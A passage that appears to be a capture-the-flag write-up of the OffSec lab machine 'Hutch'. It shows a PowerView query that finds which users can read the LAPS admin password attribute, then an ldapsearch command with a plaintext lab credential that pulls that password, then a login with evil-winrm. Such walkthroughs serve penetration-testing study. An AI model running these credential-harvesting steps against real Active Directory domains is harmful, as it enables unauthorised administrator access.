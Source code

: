 
We could potentially get the administrator's password from this. First, we need to see who can read it using `PowerView.ps1`:

{% code overflow="wrap" %}
```powershell
PS C:\Windows\Tasks> Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-Admpwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | select IdentityName

IdentityName       
------------       
HUTCH\Domain Admins
HUTCH\fmcsorley 
```
{% endcode %}

The user `fmcsorley` can read the password. I checked using `ldapsearch`, and sure enough it was there:

{% code overflow="wrap" %}
```
$ ldapsearch -x -H ldap://192.168.197.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b "DC=hutch,DC=offsec" > fmc.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (178) (3).png" alt=""><figcaption></figcaption></figure>

We can then `evil-winrm` in using it:

<figure><img src="../../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
